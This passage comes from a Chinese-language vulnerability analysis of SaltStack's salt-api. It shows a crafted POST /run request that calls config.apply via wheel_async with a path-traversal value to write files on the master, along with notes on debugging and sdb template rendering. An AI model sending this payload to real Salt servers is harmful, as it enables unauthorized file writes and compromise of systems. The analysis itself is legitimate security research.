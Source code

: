 ```
key.gen
key.gen_accept
key.gen_keys
key.gen_signature
key.get_key
key.print
key.list
key.list_all
key.master_key_str
key.name_match
key.reject
key.reject_dict
minions.connected
pillar_roots.find
pillar_roots.list_env
pillar_roots.list_roots
pillar_roots.read
pillar_roots.write
```

调用master_config的函数太多了，这么多要怎么找呢，这里就要感谢pycharm万能ctrl+alt+H快捷键 ~~qq抱大佬大腿才是最优解~~。

先盲选第一个salt/wheel/config.py的`config.apply`，参数为key和value

[![](https://p5.ssl.qhimg.com/t01f020f1239669b6c2.png)](https://p5.ssl.qhimg.com/t01f020f1239669b6c2.png)

根据之前`pillar_roots.write`的调用方式，我们直接修改之前的包为如下

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 177
Content-Type: application/json

[`{`"client": "wheel_async", "fun": "config.apply", "key": "FA1C0N is here", "value": "../../../../../tmp/FA1C0N", "username": "password", "password": "username", "eauth": "pam"`}`]

```

发送，get it！Debug看看到底中间发生了什么

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01dffcee8908d276ea.png)

由于config.apply的调用跟pillar_roots.write一样都是通过wheel_async调用，断不断到完全随缘，因此我们这里用一个取巧的方法间接debug康康。

> 加载配置文件时，读取到sdb://my-rest-api/keys后，会找到配置文件1中的keys内容，将url作为Jinja2模板编译，使用?user=myuser作为变量渲染url，即会从 [https://api.github.com/users/myuser/keys](https://api.github.com/users/myuser/keys) 中拉取数据。
